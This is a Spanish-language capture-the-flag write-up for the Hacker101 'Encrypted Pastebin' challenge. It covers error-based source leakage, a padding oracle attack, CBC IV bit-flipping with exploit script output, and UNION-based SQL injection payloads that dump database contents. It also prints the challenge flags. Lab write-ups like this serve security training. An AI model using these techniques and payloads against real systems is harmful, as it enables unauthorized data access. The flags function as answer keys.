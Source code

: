 # HackerOne Hacker101 CTF

## Encrypted Pastebin
### Web, Crypto - Hard (9/flag)

![](img/level03.png)

### Hints
* Flag0
	* What are these encrypted links?
	* Encodings like base64 often need to be modified for URLs. Thanks, HTTP
	* What is stopping you from modifying the data? Not having the key is no excuse
* Flag1
	* We talk about this in detail in the Hacker101 Crypto Attacks video
	* Don't think about this in terms of an attack against encryption; all you care about is XOR
* Flag2
	* Remember: XOR
	* Sometimes all it takes is toggling a few bits in the right place
* Flag3
	* You are on your own for this one. Good luck and have fun!

Enviamos el formulario, y se nos redirige a la siguiente URL en la que podemos leer los datos introducidos.
```
/?post=dJ4fmjaOU6tiS9pR2iL9se7rwpNkiEf3k1J2PcxegwXFglqaubU88BoYhrEQGWM9Yv6TSccTFHbVJJyrv6Bx!lvhQEfkxtNf2Ucg0cESVlG5zCDuLldRhmg8TpIvAcb!azaJt2SrkvwxWDE7TagOjk5bM0MjLc!RPiy-jZOfWyUylfLt09LwM9U2fck6kOOIwt6t-bZrfrvHkygbwOkdgQ~~
```

La flag0 la obtenemos al modificar este parámetro y hacer que ocurra un error en la aplicación.

![](img/level03-error.png)

Además, para cada error distinto que generamos, obtenemos algunas lineas del código fuente de la aplicación python.
Leyendo este código vemos cómo la aplicación utiliza AES para cifrar los datos en modo CBC. Ademas, estos datos están codificados en una modificación URL-safe de base64.

```python
main.py
    69  post = json.loads(decryptLink(postCt).decode('utf8'))
    71  if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
    72    abort(404)
    74  body = decryptPayload(post['key'], body)

common.py
    11  b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  def unpad(data):
    19  padding = data[-1]
    22  raise PaddingException()
  
  def decryptPayload(key, data):
    36  cipher = AES.new(b64d(key), AES.MODE_CBC, iv)
    37  return unpad(cipher.decrypt(data))

  def decryptLink(data):
    46  data = b64d(data)
    48  cipher = AES.new(staticKey, AES.MODE_CBC, iv)
    49  return unpad(cipher.decrypt(data))
```

### Ataque Padding Oracle

Adaptamos el script de este writeup <https://github.com/p4-team/ctf/tree/master/2016-09-16-csaw/neo> y realizamos el ataque de padding oracle para descifrar el texto anterior. También es posible utilizar el código original <https://github.com/mpgn/Padding-oracle-attack/blob/master/exploit.py>.

[padding_oracle.py](scripts/level04-encrypted-pastebin/padding_oracle.py)

![](img/level03-paddingoracle.png)

Tras unos 30 minutos obtenemos el plaintext con la flag1 y los parametros *id* y *key*.

```
{"flag": "^FLAG^2cce3260ba36b355c591915f60e8315e7badb25b7b8b037c8952922b1513ef1e$FLAG$", "id": "67", "key": "7!c4zYim45oYGG36hvw4Pg~~"}
```

### Generar un bloque cifrado

Por la forma que se construye la cadena de bloques, si conocemos el plaintext del primer bloque, podemos alterar el IV para generar un bloque cifrado.

![](img/level03-cbc.png)

```
NewIV = IV ^ NewPlaintext ^ Plaintext
NewIV = IV ^ '{"id":"1"}\x06\x06\x06\x06\x06\x06' ^ '{"flag": "^FLAG^'
```

Lanzamos una petición con el nuevo IV y obtenemos la flag2 en el titulo del post.

Aunque esta petición se puede realizar de forma manual, se ha utilizado el script [exploit.py](scripts/level04-encrypted-pastebin/exploit.py)

```
exploit.py '{"id":"1"}'
Plain     7b22666c6167223a20225e464c41475e {"flag": "^FLAG^
New Plain 7b226964223a2231227d060606060606 {"id":"1"}
Crypt     1ac56a5802c831629f494362ae592483
newIV     1ac56550419531699d161b22e41e65db
http://HOST/?post=GsVlUEGVMWmdFhsi5B5l23lnIGk8LFSzidgCLUYaR90~

^FLAG^a88173e606bbbbc09dba45dd03416e54a0475f37f853cfd9948dd471432730db$FLAG$
Attempting to decrypt page with title: ^FLAG^515e0c8d9b161f119a62212600eed8b675d0d26f3b59760e55a96859b5cba6b2$FLAG$
Traceback (most recent call last):
  File "./main.py", line 74, in index
    body = decryptPayload(post['key'], body)
KeyError: 'key'
```

### Generar varios bloques cifrados

Combinando las técnicas anteriores, podemos generar varios bloques cifrados, en el ejemplo cifraremos el json `{"id":"1","key":"RYxUB!nb6e2NKkHpkdPZHA~~"}`

* Paso 1: Descifrar un bloque, por ejemplo 00000000000000000000000000000000. Para ello utilizamos la vulnerabilidad de Padding Oracle.
* Paso 2: Hacemos XOR del bloque descifrado con el ultimo bloque en claro que deseamos inyectar, el resultado se utilizará como ciphertext del penultimo bloque.
* Paso 3: De igual forma, desciframos este bloque, hacemos XOR con el texto en claro y el resultado se utiliza como ciphertext del bloque anterior.
* Paso 4: Repetimos el paso 3 las veces que sea necesario hasta obtener el primer bloque, que se corresponde con el IV.

![](img/level03-cbc2.png)

[exploit2.py](scripts/level04-encrypted-pastebin/exploit2.py)

### Inyección SQL
Si inyectamos una comilla obtenemos un error SQL,
`{"id":"1'"}`
```
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Para aprovechar esta inyección, usaremos la técnica **UNION** para exfiltrar información de la base de datos.

```
{"id":"0 UNION SELECT database(),2"}
level3
```

```
{"id":"0 UNION SELECT group_concat(table_name),2 from information_schema.tables WHERE table_schema='level3'"}
posts,tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(column_name,0x7c,table_name)),2 from information_schema.columns WHERE table_schema='level3'"}
id|posts
title|posts
body|posts
id|tracking
headers|tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(id,0x7c,headers)),2 FROM tracking"}
1|Referer: http://127.0.0.1:14807/?post=jUDnHEBPdOZj-iuRLUHc4Y51TH2ypPt6Cv8faSGi7Lf1hja3540tMHMopZWL865jPa71bVLqBbUJoxiT-a-Iog~~
```
Finalmente, accedemos a la URL con la clave del ID 1 y obtenemos la última flag.
